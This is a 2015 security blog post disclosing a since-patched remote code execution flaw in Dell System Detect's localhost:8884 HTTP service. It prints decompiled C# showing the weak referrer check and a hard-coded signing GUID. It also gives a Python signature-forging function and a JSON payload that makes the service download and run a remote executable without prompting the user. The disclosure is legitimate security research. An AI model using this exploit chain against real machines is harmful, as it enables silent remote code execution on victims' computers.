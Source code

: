 ```yaml
---
layout: single
title: "Dell System Detect RCE vulnerability"
date: 2015-03-23 15:16:10.058935
permalink: /dell-system-detect-rce-vulnerability
tags:
   - security
---
```


I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](http://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.

![](./2014-12-15_20_57_40-_HR3AJAFL.png)

Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:

![](./http_connect_U47J6VNA.png)

Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```csharp
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "http://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```csharp
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```csharp
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **http://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```csharp
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "http://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "http://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    